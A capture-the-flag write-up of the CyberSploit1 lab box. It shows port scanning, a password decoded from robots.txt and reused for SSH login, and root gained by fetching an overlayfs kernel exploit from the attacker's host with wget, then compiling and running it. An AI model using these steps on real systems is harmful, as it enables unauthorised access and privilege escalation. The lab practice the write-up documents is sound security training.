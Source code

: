 # PG Play - CyberSploit1

#### Ip: 192.168.194.92
#### Name: CyberSploit1
#### Difficulty: Easy
#### Community Rating: Easy

----------------------------------------------------------------------

### Enumeration

I'll kick off enumerating this box with an Nmap scan covering all TCP ports. To speed this along I'll also use the `--min-rate 10000` flag. I'll also use the `-sV` and `-sC` flags to enumerate versions and use basic scripts:

```text
┌──(ryan㉿kali)-[~/PG/CyberSploit1]
└─$ sudo nmap -p-  --min-rate 10000 192.168.194.92 -sC -sV
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-27 15:01 CDT
Nmap scan report for 192.168.194.92
Host is up (0.090s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 011bc8fe18712860846a9f303511663d (DSA)
|   2048 d95314a37f9951403f49efef7f8b35de (RSA)
|_  256 ef435bd0c0ebee3e76615c6dce15fe7e (ECDSA)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
|_http-title: Hello Pentester!
|_http-server-header: Apache/2.2.22 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.65 seconds
```

Heading to the site we find a GIF and several anchored links:

site.png

But in the page source we find an interesting comment:

username.png

Cool, looks like we've found a username, lets keep enumerating. 

Seeing if there is a robots.txt file, we find what appears to be base64:

robots.txt

Lets decode this in the terminal:

```text
┌──(ryan㉿kali)-[~/PG/CyberSploit1]
└─$ echo "Y3liZXJzcGxvaXR7eW91dHViZS5jb20vYy9jeWJlcnNwbG9pdH0=" | base64 -d
cybersploit{youtube.com/c/cybersploit}
```

### Exploitation

Out of curiosity I tried this as a password in SSH with the discovered username, and it worked!

```text
┌──(ryan㉿kali)-[~/PG/CyberSploit1]
└─$ ssh itsskv@192.168.194.92                             
The authenticity of host '192.168.194.92 (192.168.194.92)' can't be established.
ECDSA key fingerprint is SHA256:19IzxsJJ/ZH00ix+vmS6+HQqDcXtk9k30aT3K643kSs.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.194.92' (ECDSA) to the list of known hosts.
itsskv@192.168.194.92's password: 
Welcome to Ubuntu 12.04.5 LTS (GNU/Linux 3.13.0-32-generic i686)

 * Documentation:  https://help.ubuntu.com/

New release '14.04.6 LTS' available.
Run 'do-release-upgrade' to upgrade to it.


Your Hardware Enablement Stack (HWE) is supported until April 2017.

itsskv@cybersploit-CTF:~$ hostname
cybersploit-CTF
```

We can now grab the local.txt flag:

user_flag.png

### Privilege Escalation

I'll go ahead and transfer LinPEAS over to the target to help find a privilege escalation vector:

transfer.png

Linpeas finds a few things of interest, but most interesting is this outdated version:

peas.png

Googling exploits we find this is vulnerable to overlayfs https://www.exploit-db.com/exploits/37292

Lets download this back to our machine and we can transfer it over an compile it on the target.

```text
itsskv@cybersploit-CTF:/tmp$ wget http://192.168.45.158/overlayfs.c
--2023-09-28 01:47:49--  http://192.168.45.158/overlayfs.c
Connecting to 192.168.45.158:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 4981 (4.9K) [text/x-csrc]
Saving to: `overlayfs.c'

100%[===================================================================================>] 4,981       --.-K/s   in 0.007s  

2023-09-28 01:47:49 (704 KB/s) - `overlayfs.c' saved [4981/4981]

itsskv@cybersploit-CTF:/tmp$ gcc overlayfs.c -o ofs
itsskv@cybersploit-CTF:/tmp$ ./ofs
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root),1001(itsskv)
```

Nice, that worked! Lets grab the final flag:

root_flag.png

Thanks for following along!

-Ryan

----------------------------------------------------------